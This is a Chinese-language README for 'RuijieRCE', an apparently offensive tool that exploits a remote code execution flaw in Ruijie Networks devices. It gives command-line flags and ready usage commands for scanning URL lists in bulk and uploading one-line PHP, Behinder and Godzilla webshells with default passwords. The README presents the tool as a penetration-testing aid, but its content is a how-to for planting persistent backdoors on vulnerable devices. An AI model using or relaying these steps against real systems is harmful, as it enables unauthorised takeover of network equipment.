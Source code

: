 # RuijieRCE
Ruijie Networks RCE漏洞检测工具，为方便渗透测试使用，可以批量检测，也会生成历史记录。同时也为防止他人恶意使用，可自定义GET参数密码，该密码由sha256加密，难以破解。同时也可以上传冰蝎马或者哥斯拉马。批量检测支持并发。



## 参数
```bash
Usage of ./RuijieRCE:
  -f string
    	导入.txt文件批量扫描
  -k string
    	写入shell密钥，一句话马默认为cmd，哥斯拉马默认为key，冰蝎马没有密钥
  -n string
    	写入shell默认一句话马🐎，B冰蝎马，G哥斯拉马
  -p string
    	写入shell密码，一句话马默认为cmd，哥斯拉马默认为pass，冰蝎马默认为rebeyond
  -u string
    	目标URL
```

## 使用
检测到漏洞后生成随机数.php文件执行命令，也可以上菜刀。
![](./cknife.png)

### 上传一句话木马
GET密码：cmd
POST密码：cmd
```bash
./RuijieRCE -u http://127.0.0.1:4430
```

#### 设置密码
-n参数为POST密码，-p参数为GET密码
这两个参数缺省时均为cmd，可以只设置一个或者同时都设置
```bash
./RuijieRCE -u http://127.0.0.1:4430 -n asd -p zxc
```

### 上传冰蝎马
默认密钥为rebeyond，也可以使用-p参数修改
```
./RuijieRCE -u http://127.0.0.1:4430 -n B -p rebeyond
```

### 上传哥斯拉马
哥斯拉加密器使用BASE64，默认密码为pass，密钥为key
```
./RuijieRCE -u http://127.0.0.1:4430 -n G -p pass -k key
```

### 批量测试
批量测试时也可以设置上传冰蝎马、哥斯拉马以及自定义密码
```bash
./RuijieRCE -f url.txt
```
